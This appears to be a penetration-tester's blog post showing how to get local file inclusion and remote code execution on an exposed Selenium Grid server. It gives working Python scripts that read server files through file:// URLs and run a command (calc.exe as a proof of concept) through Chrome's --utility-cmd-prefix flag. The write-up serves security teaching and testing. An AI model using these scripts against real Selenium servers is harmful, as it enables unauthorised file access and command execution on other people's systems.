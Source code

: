 ```yaml
---
layout: post
title: "Selenium Local File Inclusion to Remote Code Execution"
date: 2021-07-20 15:02:00 -0500
categories: misc
tags: windows selenium rce
image:
  path: /assets/img/headers/selenium/selenium.png
---
```


## Selenium Local File Inclusion Exploit

Welcome to everybody [@T3jv1l](https://twitter.com/T3jv1l) here, and today I'll talk shortly about selenium. I'll walk you through a scenario I came across while conducting a penetration test and demonstrate how I obtained Local File Inclusion (LFI) and Remote Code Execution (RCE) in Selenium Grid.

Create a lab setting. From [https://www.java.com/download/ie_manual.jsp](https://www.java.com/download/ie_manual.jsp), install Java. [https://selenium-release.storage.googleapis.com/3.141/selenium-server-standalone-3.141.59.jar](https://selenium-release.storage.googleapis.com/3.141/selenium-server-standalone-3.141.59.jar) is the URL to get the most recent version of Selenium Grid. Download your browser's webdrive version. If you are unsure of your version, download any version, and then reinstall it after receiving the error message stating you do not have version X installed [https://chromedriver.chromium.org/downloads](https://chromedriver.chromium.org/downloads).

Start Selenium server:
```sh
java -Dwebdriver.chrome.driver="C:\Selenium\chromedriver.exe" -jar  C:\Users\nutcrackers\Downloads\selenium-server-standalone-3.141.59.jar
```

![selenium](/assets/img/headers/selenium/selenium2.png)

Everything is all set up. Let's begin. We will first use Python to set up our webdriver. All of the WebDriver implementations are offered by the `selenium.webdriver` module. Firefox, Chrome, and other browsers that use WebDriver are currently supported. We'll use the following to build the remote Chrome and Firefox instances:
```python
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# load webdrive module from chrome instance/session

driver = webdriver.Remote(
   command_executor='http://192.168.1.130:4444/wd/hub',
   desired_capabilities=DesiredCapabilities.CHROME,

)
driver.get("file:///C:/Users/nutcrackers") # display internal information
print(driver.page_source)
driver.quit()
```

- `webdriver.Remote()`: Create a new instance of the WebDriver by calling webdriver.Remote() constructor. This allows communication with a remote Selenium server.

- `command_executor='http://192.168.1.130:4444/wd/hub'`: Specify the URL of the Selenium server to connect to. The provided URL is http://192.168.1.130:4444/wd/hub.

- `desired_capabilities=DesiredCapabilities.CHROME`: Set the desired capabilities for the WebDriver. In this case, it uses the Chrome browser.

- `driver.get("file:///C:/Users/nutcrackers")`: Open the specified URL in the browser. In this case, it opens a local file C:/Users/nutcrackers.

- `print(driver.page_source)`: Retrieve the page source of the loaded web page and print it to the console.

- `driver.quit()`: Close the browser and terminate the WebDriver session.

Overall, this code sets up a WebDriver instance to connect to a remote Selenium server, opens a local file in the browser, retrieves the page source, and then closes the browser.

![selenium](/assets/img/headers/selenium/selenium3.png)

You can view the entire contents of the server's `C:/Users/nutcrackers` directory if you open the index.html file locally.

![selenium](/assets/img/headers/selenium/selenium4.png)

## Selenium Remote Code Execution Exploit

The next tactic is remote code execution (RCE). The arguments from the browser must be used to launch powershell.exe or, in this case, a calc.exe. Due to the browser driver being connected to the server, this is quite easy to do.
```python
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

payload='calc.exe #' #payload just for POC
# execute chrome arguments
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")
chrome_options.add_argument("--utility-and-browser")
chrome_options.add_argument("--utility-cmd-prefix="+payload)

driver = webdriver.Remote(
   command_executor='http://192.168.1.130:4444/wd/hub',
   desired_capabilities=DesiredCapabilities.CHROME,
   options=chrome_options
)
driver.get("https://google.com")
driver.quit()
```
We set the payload:

- `payload='calc.exe #'`: Define the payload to be executed. In this case, the payload is 'calc.exe #'. This payload is for Proof of Concept (POC) purposes.

- `chrome_options = webdriver.ChromeOptions()`: Create an instance of ChromeOptions to configure the Chrome browser.

- `chrome_options.add_argument("--no-sandbox")`: Add the `--no-sandbox` argument to the Chrome options. This argument disables the sandbox mode in Chrome.
    
- `chrome_options.add_argument("--utility-and-browser")`: Add the `--utility-and-browser` argument to the Chrome options. This argument enables both utility and browser processes in Chrome.

- `chrome_options.add_argument("--utility-cmd-prefix="+payload)`: Add the `--utility-cmd-prefix` argument to the Chrome options and set it to the previously defined payload. This argument specifies the command prefix for utility processes in Chrome.

![selenium](/assets/img/headers/selenium/selenium5.png)

## Reference

[https://selenium-python.readthedocs.io/getting-started.html#simple-usage](https://selenium-python.readthedocs.io/getting-started.html#simple-usage)

[https://chromedriver.chromium.org/downloads](https://chromedriver.chromium.org/downloads)